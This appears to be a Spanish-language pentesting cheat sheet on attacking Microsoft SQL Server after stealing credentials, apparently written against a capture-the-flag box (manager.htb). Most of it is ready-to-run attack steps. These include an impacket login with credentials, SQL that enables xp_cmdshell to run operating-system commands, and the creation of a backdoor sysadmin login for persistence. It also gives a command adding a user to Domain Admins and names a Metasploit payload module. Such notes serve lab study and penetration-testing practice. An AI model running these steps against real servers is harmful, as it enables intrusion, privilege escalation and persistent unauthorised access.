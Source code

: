 # MICROSOFT SQL SERVER ATTACKS

- Cuando logramos comprometer credenciales de un usuario de SQL Server, podemos realizar ataques adicionales para obtener acceso a la base de datos o ejecutar comandos en el servidor SQL.

## Vectores de ataque

- **SQL Injection**: Si la aplicación web es vulnerable a inyecciones SQL, podemos utilizar esta vulnerabilidad para ejecutar comandos SQL arbitrarios y obtener acceso a la base de datos.

- **SQLCMD**: Herramienta de línea de comandos para interactuar con SQL Server. Permite ejecutar consultas SQL y scripts.

- **xp_cmdshell**: Procedimiento almacenado que permite ejecutar comandos del sistema operativo desde SQL Server. Si está habilitado, podemos ejecutar comandos de Windows directamente desde SQL Server.

### Acceso mediante impacket e intento de RCE

- `impacket-mssqlclient manager.htb/operator:operator@manager.htb -windows-auth`
- Enumerar directorios: `SQL (MANAGER\Operator  guest@master)> xp_dirtree`

#### Habilitar xp_cmdshell
- `EXEC sp_configure 'show advanced options', 1;`
- `RECONFIGURE;`
- `EXEC sp_configure 'xp_cmdshell', 1;`
- `RECONFIGURE;`
- Entonces ahora: `EXEC xp_cmdshell 'whoami';`

#### Crear persistencia en MSSQL
- Crear un nuevo usuario con privilegios:
    ```sql
    CREATE LOGIN [pwned] WITH PASSWORD = 'pass';
    CREATE USER [pwned] FOR LOGIN [pwned];
    EXEC sp_addsrvrolemember 'pwned', 'sysadmin';
    ```
- Verificar el acceso:
    ```sql
    SELECT SYSTEM_USER, USER_NAME();
    ```
- `EXEC xp_cmdshell 'net group "Domain Admins" manager\operator /add /domain';`


#### Herramientas utiles
- Impacket
- PowerUpSQL
- Metasploit `exploit/windows/mssql/mssql_payload`